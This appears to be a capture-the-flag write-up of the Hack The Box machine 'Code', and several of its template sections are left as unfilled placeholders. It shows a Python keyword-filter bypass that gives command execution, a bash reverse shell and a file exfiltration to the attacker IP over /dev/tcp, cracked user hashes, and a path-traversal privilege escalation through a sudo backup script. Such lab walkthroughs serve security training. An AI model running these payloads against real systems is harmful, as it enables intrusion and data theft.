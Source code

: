 ### Hack The Box Writeup: Code

## Overview

- **Machine Name**: Code
- **Difficulty**: Easy
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: 
- **Date Solved**: August 2025

## Tools Used

- **Enumeration**: 
- **Exploitation**: 
- **Privilege Escalation**: 
- **Other**: 

## Methodology

### Initial Enumeration

```bash
ping -c 1 10.10.11.62

nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn -oG allPorts 10.10.11.62
nmap -sCV -p22,5000 -oN targeted 10.10.11.62

whatweb http://10.10.11.62:5000

```

### Exploitation
#### Using python

```py
# built in functions
test = getattr(print.__self__, '__import__')('os')
test.system('whoami')

getattr(test, 'system')('whoami')

# BUt, the web doesn't permit to use keyword. Then, we have to concatenate the string
test = getattr(print.__self__, '__im' + 'port__')('o' + 's')
getattr(test, 'sys' + 'tem')('whoami')

# TO view results, we need icmp
tcpdump -i tun0 icmp -n # local machine

getattr(test, 'sys' + 'tem')('ping -c 1 10.10.16.5') # atacker ip

# We can use RCE
nc -nlvp 443
getattr(test, 'sys' + 'tem')('bash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"')

```

### Privilege Escalation

```bash
script /dev/null -c bash
ctrl + z

stty raw -echo; fg
reset xterm

export TERM=xterm
export SHELL=bash

find . # to view all files in current dir
cd ./instance

file database.db
sqlite3 database.db
.tables

select * from user;
# ans
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be

# de-hashed in hashes.com
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster

ssh martin@10.10.11.62

id
sudo -l
# ans
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh

nc -nlvp 443 > backy.sh # localmachine
cat /usr/bin/backy.sh > /dev/tcp/10.10.16.5/443

# rewrite json file using path traversal
{
	"destination": "/home/martin/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/....//root"
	]
}

sudo /usr/bin/backy.sh task.json

tar-xf code.tar.gz
cd root
cat root.txt

```

\[Describe the final access achieved, e.g., root shell, admin credentials.\]

## Challenges Faced

\[List specific challenges encountered, e.g., difficulty identifying the correct exploit, dealing with restricted shells.\]

- **Challenge 1**: \[e.g., Nmap scans were blocked by a firewall.\]
  - **Solution**: \[e.g., Used --script-args to bypass restrictions.\]
- **Challenge 2**: \[e.g., Password cracking took too long.\]
  - **Solution**: \[e.g., Optimized wordlist with custom rules in Hashcat.\]

## Lessons Learned

\[Summarize key takeaways from solving the machine.\]

- Learned to identify \[specific vulnerability, e.g., outdated Samba versions\] through thorough enumeration.
- Improved skills in \[technique, e.g., manual exploit development for CVE-XXXX-XXXX\].
- Gained experience with \[tool, e.g., LinPEAS for privilege escalation\].

## References

- \[Link to HTB machine page, e.g., https://app.hackthebox.com/machines/Lame\]
- \[CVE details, e.g., https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-XXXX-XXXX\]
- \[Tool documentation, e.g., https://nmap.org/book/man.html\]
- \[Relevant blog post or tutorial, e.g., https://example.com/samba-exploit-guide\]

---

*Written by YourName, \[Month Year\]. Feedback welcome at \[your contact, e.g., GitHub profile\].*